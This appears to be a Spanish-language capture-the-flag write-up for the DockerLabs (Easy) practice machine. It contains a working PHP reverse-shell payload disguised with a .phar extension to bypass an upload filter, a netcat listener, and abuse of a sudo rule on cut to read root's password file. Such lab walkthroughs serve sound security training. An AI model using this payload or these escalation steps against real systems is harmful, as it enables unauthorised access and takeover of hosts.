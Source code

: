 # Dockerlabs DockerLabs (Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip dockerlabs.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh dockerlabs.tar
```

Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-08 12:03 EST
Nmap scan report for asucar.dl (172.17.0.2)
Host is up (0.000033s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Dockerlabs
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.20 seconds
```

Si nos metemos en la pagina aparentemente no veremos nada interesante, por lo que `fuzzearemos` un poco:

## Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt -t 100 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd.txt        (Status: 403) [Size: 275]
/.htpasswd.php        (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/.htaccess.txt        (Status: 403) [Size: 275]
/.htaccess.php        (Status: 403) [Size: 275]
/.htaccess.html       (Status: 403) [Size: 275]
/.htaccess            (Status: 403) [Size: 275]
/.htpasswd.html       (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 8235]
/machine.php          (Status: 200) [Size: 1361]
/server-status        (Status: 403) [Size: 275]
/uploads              (Status: 200) [Size: 741]
/upload.php           (Status: 200) [Size: 0]
Progress: 81876 / 81880 (100.00%)
===============================================================
Finished
===============================================================
```

Vemos varias cosas interesantes, entre ellas la pagina `machine.php` que nos llevara a un `upload` para poder subir un archivo, por lo que vamos a intentar crearnos una `reverse shell` subiendo un archivo `.php`.

## Escalate user www-data

Si intentamos subir un archivo directamente con `PHP` nos aparecera esto:

```
No se permite la subida de archivos que no sean .zip
```

Por lo que haremos lo siguiente:

> shell.phar

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Pondremos el archivo en extension `.phar` para `Bypassear` el verificado, por lo que lo subiremos y nos iremos a la carpeta `/uploads`:

```
URL = http://<IP>/uploads/
```

Y antes de darle a nuestro archivo nos pondremos a la escucha.

```shell
nc -lvnp <PORT>
```

Seleccionamos el archivo en la web y si nos vamos a donde teniamos la escucha veremos que hemos obtenido una shell:

```
listening on [any] 7777 ...
connect to [192.168.120.128] from (UNKNOWN) [172.17.0.2] 46552
whoami
www-data
```

## Escalate Privileges

Sanitizaremos la shell (TTY):

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for www-data on a05f02578833:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on a05f02578833:
    (root) NOPASSWD: /usr/bin/cut
    (root) NOPASSWD: /usr/bin/grep
```

Por lo que vemos podemos ejecutar los binarios `cut` y `grep` como el usuario `root`, por lo que haremos lo siguiente:

Si nos vamos a `/opt` veremos una `nota.txt` que dice lo siguiente:

```
Protege la clave de root, se encuentra en su directorio /root/clave.txt, menos mal que nadie tiene permisos para acceder a ella.
```

Sabiendo esto haremos lo siguiente:

```shell
LFILE=/root/clave.txt
sudo cut -d "" -f1 "$LFILE"
```

Info:

```
dockerlabsmolamogollon123
```

Si probamos a poner como contraseña esa al usuario de `root` veremos que es dicha contraseña.

```shell
su root
```

Metemos como contraseña `dockerlabsmolamogollon123` y seremos `root`.
